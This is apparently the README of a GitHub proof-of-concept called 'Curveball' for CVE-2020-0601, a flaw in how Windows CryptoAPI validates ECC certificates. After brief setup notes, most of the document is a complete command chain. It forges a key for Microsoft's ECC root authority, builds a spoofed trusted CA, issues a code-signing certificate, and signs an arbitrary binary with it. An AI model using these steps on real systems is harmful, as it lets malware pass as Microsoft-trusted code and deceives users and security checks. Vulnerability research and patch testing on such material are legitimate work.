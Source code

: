 # Curveball
A PoC for [CVE-2020-0601](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0601). A detailed blog post can be found [here](https://blog.layle.io/uncovering-cve-2020-0601/). This exploit allows you to create a fake trusted certificate by abusing how CryptoAPI handles certain parameters on ECC based certificates.

## Setup
Clone the repository and open it in Visual Studio 2019. Switch to Release and compile it. You can find prebuilt binaries [here]().

## Usage
```
.\Curveball.exe MicrosoftECCProductRootCertificateAuthority.cer MicrosoftECCProductRootCertificateAuthority_fake.key
openssl req -new -x509 -key MicrosoftECCProductRootCertificateAuthority_fake.key -out trusted_ca.crt
openssl ecparam -name secp384r1 -genkey -noout -out cert.key
openssl req -new -key cert.key -out cert.csr -config openssl.conf -reqexts v3_cs
openssl x509 -req -in cert.csr -CA trusted_ca.crt -CAkey MicrosoftECCProductRootCertificateAuthority_fake.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl.conf -extensions v3_cs
openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile trusted_ca.crt -name "Code Signing" -out cert.p12
./osslsigncode sign -pkcs12 cert.p12 -n "Signed by Layle" -in <BINARY_TO_SIGN> -out <SIGNED_BINARY>
```

